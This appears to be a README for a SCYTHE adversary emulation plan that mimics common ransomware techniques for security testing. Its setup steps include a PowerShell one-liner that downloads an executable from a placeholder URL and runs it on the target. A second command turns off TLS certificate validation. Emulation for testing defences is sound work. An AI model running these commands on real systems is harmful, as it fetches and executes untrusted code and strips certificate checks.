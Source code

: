 # Ransomware Top 10 TTPs Adversary Emulation Plan

This adversary emulation plan was created for a customer that asked "what are the top 10 TTPs used by Ransomware" and goes with this blog: 

To emulate:
1. Download and import the threat in JSON format to your SCYTHE instance
2. Download the Virtual File System (VFS) files under Ransomware/VFS
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/Ransomware
4. Create a new campaign over HTTPS port tcp/443
5. Import from Existing Threat: Ransomware_Top_10
6. Launch Campaign
7. Click More Actions and copy the URL for the EXE. 
8. In the target system, run this PowerShell command with the respective URL to download and execute the payload: $myscriptblock={$url="URL of EXE";$wc=New-Object System.Net.WebClient;$output="C:\Users\Public\scythe_payload.exe";$wc.DownloadFile($url,$output);C:\Users\Public\scythe_payload.exe};Invoke-Command -ScriptBlock $myscriptblock;

If you get a TLS certificate validation error, you can bypass with this PowerShell command:
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}